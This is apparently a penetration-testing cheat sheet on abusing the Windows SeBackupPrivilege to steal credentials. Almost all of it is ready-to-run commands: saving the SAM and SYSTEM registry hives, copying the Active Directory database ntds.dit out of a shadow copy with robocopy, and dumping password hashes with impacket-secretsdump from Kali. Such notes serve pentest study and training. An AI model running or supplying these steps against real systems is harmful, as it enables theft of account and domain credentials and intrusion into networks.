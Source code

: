 # SeBackupPrivilege

```powershell
# Abusing SeBackupPrivilege (launch as administrator if RDP)
reg save hklm\sam C:\ProgramData\System\sam && reg save hklm\system C:\ProgramData\System\system
```

If we are working with Active Directory, we also need its database, [NTDS.dit](https://windowstechno.com/what-is-ntds-dit/).

```powershell
# Using robocopy to copy from shadow copy
robocopy /b P:\Windows\ntds\ C:\ProgramData\System\ ntds.dit
```

**Back in Kali**

```bash
# Dump SAM and NTDS
impacket-secretsdump -sam SAM.save -system SYSTEM.save -ntds ntds.dit LOCAL
```
